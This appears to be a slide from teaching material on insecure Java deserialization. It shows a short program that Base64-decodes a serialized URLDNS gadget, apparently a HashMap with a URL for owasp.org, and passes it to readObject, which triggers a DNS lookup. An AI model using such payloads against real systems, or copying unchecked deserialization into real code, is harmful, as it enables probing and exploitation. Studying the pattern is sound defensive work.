

# Example Gadget - URLDNS
import java.io.ByteArrayInputStream;
import java.io.IOException;
import java.io.ObjectInputStream;
import java.util.Base64;
public class Main {
    public static void main(String[] args) throws IOException, ClassNotFoundException {
        byte b[] = Base64.getDecoder().decode("rO0ABXNyABFqYXZhLnV0aWwuSGFzaE1hcAUH2sHDFmDRAwACRgAKbG9hZEZhY3RvckkACXRocmVzaG9sZHhwP0AAAAAAAAx3CAAAABAAAAABc3IADGphdmEubmV0LlVSTJYlNzYa/ORyAwAHSQAIaGFzaENvZGVJAARwb3J0TAAJYXV0aG9yaXR5dAASTGphdmEvbGFuZy9TdHJpbmc7TAAEZmlsZXEAfgADTAAEaG9zdHEAfgADTAAIcHJvdG9jb2xxAH4AA0wAA3JlZnEAfgADeHD//////////3QACW93YXNwLm9yZ3QAAS9xAH4ABXQABWh0dHBzcHh0ABJodHRwczovL293YXNwLm9yZy94");
        ByteArrayInputStream bais = new ByteArrayInputStream(b);
        ObjectInputStream ois = new ObjectInputStream(bais);
        ois.readObject();
    }
}